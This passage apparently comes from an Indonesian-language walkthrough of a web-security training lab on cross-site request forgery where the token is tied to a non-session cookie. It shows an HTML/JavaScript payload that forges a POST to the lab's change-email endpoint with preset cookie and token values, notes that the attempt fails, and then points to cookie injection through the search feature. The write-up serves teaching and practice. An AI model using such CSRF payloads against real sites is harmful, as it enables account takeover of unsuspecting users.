 ```html
<script>

var xhr = new XMLHttpRequest();
var url = "https://0a7900c3035d83b782ebb0de009400e0.web-security-academy.net";
xhr.open('POST', url + '/my-account/change-email', true);

xhr.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');
xhr.setRequestHeader('Cookie', 'TESTING');
xhr.setRequestHeader('Cookie', 'csrfKey=Eb67I1HyfMZGN1o9KZWih0EwODxdozMg');

xhr.onload = function () {
    // lakukan sesuatu dengan respons
    console.log(this.responseText);
};
xhr.send('email=test12&#64;test&#46;com&csrf=V99KDCadmiyH6AJ1jjXnlHyZxdfQtEkl');

</script>
```

Tetapi ini juga tidak berhasil.

Mengecek aplikasi lagi, kita menemukan fungsi pencarian menambahkan nilai di header HTTP Cookie:

![Gambar](images/CSRF%20where%20token%20is%20tied%20to%20non-session%20cookie/3.png)

Nilai tersebut ditambahkan sebagai `LastSearchTerm`:

![Gambar](images/CSRF%20where%20token%20is%20tied%20to%20non-session%20cookie/4.png)
